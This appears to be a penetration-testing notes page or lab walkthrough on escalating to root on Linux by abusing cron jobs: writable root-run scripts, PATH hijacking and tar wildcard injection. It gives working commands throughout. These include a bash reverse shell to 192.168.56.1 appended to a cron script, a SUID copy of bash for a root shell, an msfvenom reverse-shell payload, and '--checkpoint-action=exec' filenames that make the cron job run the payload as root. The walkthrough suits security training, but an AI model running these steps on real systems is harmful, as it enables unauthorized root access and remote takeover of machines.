




# cron/crontab abuse

## Crontab 

#### cron or crontab is a unix job scheduler tool. a best friend for system administrators and when misconfigured, the best chance for an attacker to gain root access.  cron instructions usually consist of simple commands like a regular rsync command or a log cleaner one-liner script.but it gets real interesting when we find a path for a script to run as sudoer or root user in the crontab entries.if we are lucky enough to have an insecure file permission we can use it to escalate our privileges.  In order to leverage insecure file permissions, we must locate an executable file that not only allows us write access but also runs at an elevated privilege level. On a Linux system, the cron time based job scheduler is a prime target, as system-level scheduled jobs are executed with root user privileges and system administrators often create scripts for cron jobs with insecure permissions.

#### for example look for cron jobs with the following commands:   `grep "CRON" /var/log/cron.log >>> works best for unprivileged users` ` crontab -l` ` ls -alh /var/spool/cron` ` ls -al /etc/ | grep cron` ` ls -al /etc/cron*` ` cat /etc/cron*` ` cat /etc/at.allow` ` cat /etc/at.deny` ` cat /etc/cron.allow` ` cat /etc/cron.deny` ` cat /etc/crontab` ` cat /etc/anacrontab` ` cat /var/spool/cron/crontabs/root`

when we find a file we check the permissions and content

greate, we have read/write access to a file that is executed by root user every minute.the rest is history: we add a reverse shell one-liner to the file and setup a listener and wait for cron to run the script.

#### `` ` echo "bash -i >& /dev/tcp/192.168.56.1/8080 0>&1" >> /usr/local/bin/overwrite.sh` ``

## PATH Environment Variable

\
&#x20;The crontab PATH environment variable is by default set to /usr/bin:/bin The PATH variable can be overwritten in the crontab file. If a cron job program/script does not use an absolute path, and one of the PATH directories is writable by our user, we may be able to create a program/script with the same name as the cron job.\
\
&#x20;View the contents of the system-wide crontab:\

#### &#x20;`cat /etc/crontab`

&#x20;Note that the /home/user directory (which we can write to) is at the start of the PATH variable, and the first cron job does not use an absolute path.\

so we have full access to our home path which is also the PATH variable in crontab so we can create a file with the same name in our home directory and the cronjob will execute it.

we can also make a copy of /bin/bash to have a root shell without spawning a new tty:

#### `` ` nano /home/user/overwrite.sh` ` #!/bin/bash` ` cp /bin/bash /tmp/rootbash` ` chmod +s /tmp/rootbash`

#### &#x20; Once the /tmp/rootbash file is created, execute it (with -p to preserve the effective UID) to gain a root shell: 

#### `/tmp/rootbash -p`

## Wildcards

\
&#x20;Since filesystems in Linux are generally very permissive with filenames, and filename expansion happens before the command is executed, it is possible to pass command line options (e.g. -h, --help) to commands by creating files with these names. The following commands should show how this works:\
\

#### &#x20;`ls *` ` touch ./-l` ` ls *`

Filenames are not simply restricted to simple options like -h or --help.\
&#x20;In fact we can create filenames that match complex options:\

#### &#x20;`--option=key=value`

&#x20;[GTFOBins](https://gtfobins.github.io/#) can help determine whether a command has command line options which will be useful for our purposes.\
\
\
&#x20;View the contents of the system-wide crontab:\

#### &#x20;`cat /etc/crontab`

View the contents of the /usr/local/bin/compress.sh file:\
\

#### &#x20;`$ cat /usr/local/bin/compress.sh` ` #!/bin/sh` ` cd /home/user` ` tar czf /tmp/backup.tar.gz *` `` ``

&#x20;Note that the tar command is run with a wildcard in the /home/user directory.\
&#x20;GTFOBins shows that tar has command line options. which can be used to run other commands as part of a checkpoint feature.

Use msfvenom to create a reverse shell ELF payload:\

#### &#x20;`msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=6666 -f elf -o shell.elf`

\
\
&#x20;Copy the file to the /home/user directory on the remote host. Create two files in the /home/user directory:\
\

#### &#x20;`touch /home/user/--checkpoint=1` ` touch /home/user/--checkpoint-action=exec=shell.elf` `` ``

&#x20;Run a netcat listener on your local machine and wait for the cron job to run. A reverse shell running as the root user should be caught.

